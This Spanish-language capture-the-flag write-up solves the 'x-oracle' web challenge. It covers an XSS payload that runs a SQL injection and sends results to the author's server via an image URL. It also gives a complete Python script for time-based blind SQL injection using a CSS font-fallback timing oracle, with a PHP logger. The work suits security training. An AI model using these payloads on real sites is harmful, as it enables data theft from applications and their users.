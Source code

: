 ## x-oracle - Web - 228 + 500 + 500 Points

Source: [source.js](source.js) [app.js](app.js)

All sources: <https://github.com/cgvwzq/ctf_tasks/tree/master/nn9ed>


La aplicación nos permite crear páginas HTML. Además es posible reportar una página y hacer que sea visitada por un administrador.


En el código fuente que nos dan se ve como la flag de cada nivel se encuentra dentro de la base de datos MariaDB:
```sql
INSERT INTO challenge (flag, bait) VALUES ("${flag}", "Season 6, Episode 16");
```

### x-oracle-v0 - Sin protecciones

En este primer nivel, es posible insertar código JavaScript y que sea ejecutado.

```
Content-Security-Policy', "default-src 'self' 'unsafe-inline'; img-src *; style-src *; font-src *
```

Utilizamos la función *adminsearch* de *app.js* para obtener los datos, luego los enviamos codificados en base64 a nuestro servidor.

```javascript
async function adminsearch(q) {
	if (q != "") {
		let r = await fetch("/admin/search/" + encodeURIComponent(q));
		let html = await r.text();
		return html;
	}
}
```

Por defecto esta función nos devuelve los datos de la columna *bait*, para obtener los datos de la columna *flag* aprovechamos la inyección SQL en /admin/search/:query.
```
let row = await conn.query('SELECT bait FROM challenge WHERE bait LIKE \'%' + req.params.query + '%\'');
```


```
<script src="/js/app.js"></script>
<script>
  async function foo() {
    let q = "Potato' UNION SELECT flag FROM challenge LIMIT 1 #";
    let r = await adminsearch(q);
    document.write('<img src="http://[MY-DOMAIN]/?b='+encodeURI(btoa(r))+'&ts='+Date.now()+'">');
  }
  foo();
</script>
```

```
[{"bait":"nn9ed{y0u_b3tt3r_warmUp_your_w3b_j4king_sk1lls}"}]
```

### x-oracle-v1

El método que utilizamos en la parte v2 se puede aplicar también para conseguir esta flag.

Aquí puedes encontrar el writeup de cual es la solución esperada: <https://github.com/ka0labs/ctf-writeups/blob/master/2019/nn9ed/x-oracle/README.md#x-oracle-v1>

### x-oracle-v2

#### source.patch (v2)

Se deshabilita el uso de JavaScript, así como cualquier ataque cross-site.

```
60c60
<   cookie: { secure: false }
---
>   cookie: { secure: false, sameSite: 'strict' }
141c141
< 		res.setHeader('Content-Security-Policy', "default-src 'self' 'unsafe-inline'; img-src *; style-src *; font-src *");
---
> 		res.setHeader('Content-Security-Policy', "default-src 'self'; img-src *; style-src * 'unsafe-inline'; font-src *");
```

#### Solución

Combinamos un ataque de inyección SQL basado en tiempo, con CSS de la siguiente forma:

- Se carga una imagen externa.
- Simultaneamente se carga una imagen con una inyección SQL basada en tiempo.
- Al no mostrarse una imagen se muestra el texto alternativo.
- Se carga el archivo de fuentes en ese momento.

Calculando la diferencia temporal entre la imagen inicial y el archivo de fuentes podemos extraer información de la base de datos.

Con el siguiente script realizamos todo el proceso de inyección y extracción de datos.

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-

import re, requests, urllib.parse
from time import sleep


master_url = 'http://x-oracle-v1.nn9ed.ka0labs.org'
#master_url = 'http://x-oracle-v2.nn9ed.ka0labs.org'
sleeptime = 4


def createhtml(payload):
    url = master_url + '/createhtml'
    jsondata = {}
    jsondata['html'] = """<style>
@font-face{ font-family:poc; src: url(http://[MY-HOST]/end); unicode-range:U+0050;}
#flag{ font-family:poc;}
</style>
<img src="http://[MY-HOST]/init">
<img id="flag" alt="PPPPP" src="/admin/search/%s">""" % (urllib.parse.quote(payload))

    r = requests.post(url, json=jsondata)
    data = r.text

    if "Thank you" in data:
        s = re.findall(r'"/readhtml/([a-z0-f\-]+)"', data)
        if s:
            uuid = s[0]
            print(uuid)
            return uuid

    return None


def report(uuid):
    url = master_url + '/report/' + uuid
    r = requests.get(url)
    data = r.text

    if "Thanks low-level-bio" in data:
        return True

    return None


def main():
    print("[+] START %s" % master_url)

    logfile = open('oracle.txt','r')
    logfile.seek(0,2);

    result = ''
    #result = 'nn9ed{t1ming_att4cks_ar3_th3_best_att4ck' # Resume partial v1
    #result = 'nn9ed{cSS_fallback_rulez' # Resume partial v2
    init = 0
    for i in range(len(result),50):

        bits = 0
        #for letter in range(7, -1, -1):
        for letter in range(6, -1, -1): #ASCII

            bitnumber = bits + pow(2, letter)
            print('%d - %d - %d ' % (i, letter, bitnumber))
            payload = "PPP' UNION SELECT flag FROM challenge WHERE bait LIKE 'Se%%' AND ASCII(SUBSTR(flag,%d,1))>=%d AND sleep(%d) LIMIT 1 #" % ( i+1 , bitnumber , sleeptime )
            uuid = createhtml(payload)
            if uuid is None:
                print("Error: UUID failed");

            reportstatus = report(uuid)
            if reportstatus is None:
                print("Error: REPORT failed %s" % (uuid));

            while True:
              status = logfile.readline()

              if uuid in status and 'init' in status:
                  init = int(status.split(' ')[0])
                  print("INIT %d" % init)


              if uuid in status and 'end' in status:
                  end = int(status.split(' ')[0])
                  print("END %d" % end)
                  diff = end - init
                  print("DIFF %d" % diff)
                  break

            # TRUE
            if diff > sleeptime - 1:
                bits += pow(2, letter)
            # FALSE
            else:
                pass

        if bits==0: # Null byte
            print("Result: %s" % result)
            exit()
        else:
            result = result + chr(bits)
            print("Partial: %s" % result)



if __name__ == "__main__":
    main()
```


#### oracle.php

Aunque es posible realizar todo el proceso escuchando en un puerto con el script de python, yo lo hice utilizando un servidor web intermedio que escribiera el *timestamp* de las peticiones en un archivo.

```php
if(isset($_REQUEST['init'])) {
	file_put_contents('oracle.txt', time()." init ".@$_SERVER['HTTP_REFERER']."\n", FILE_APPEND);
}
if(isset($_REQUEST['end'])) {
	file_put_contents('oracle.txt', time()." end ".@$_SERVER['HTTP_REFERER']."\n", FILE_APPEND);
}
```

#### Log oracle.txt

```
1570270047 init http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/c3b30e71-b26e-49ea-a86e-f8e9633eb7a2
1570270047 end http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/c3b30e71-b26e-49ea-a86e-f8e9633eb7a2
1570270047 init http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/9ac7e650-4c5a-479c-b1b5-61b0280dec0a
1570270047 end http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/9ac7e650-4c5a-479c-b1b5-61b0280dec0a
1570270047 init http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/a321dc9d-37ef-4928-8603-72d4097d3e35
1570270047 end http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/a321dc9d-37ef-4928-8603-72d4097d3e35
1570270047 init http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/c0edcb1f-16ea-4ace-9789-861d1e56d9f9
1570270047 end http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/c0edcb1f-16ea-4ace-9789-861d1e56d9f9
1570270047 init http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/203b434f-1e01-4b8d-ab58-c0b8d7ac1181
1570270048 end http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/203b434f-1e01-4b8d-ab58-c0b8d7ac1181
1570270048 init http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/a7d24d42-fa9c-44f7-b48e-b6a5f936ecf6
1570270048 end http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/a7d24d42-fa9c-44f7-b48e-b6a5f936ecf6
```

#### Flag!

![](img/oracle-v1-flag.png)
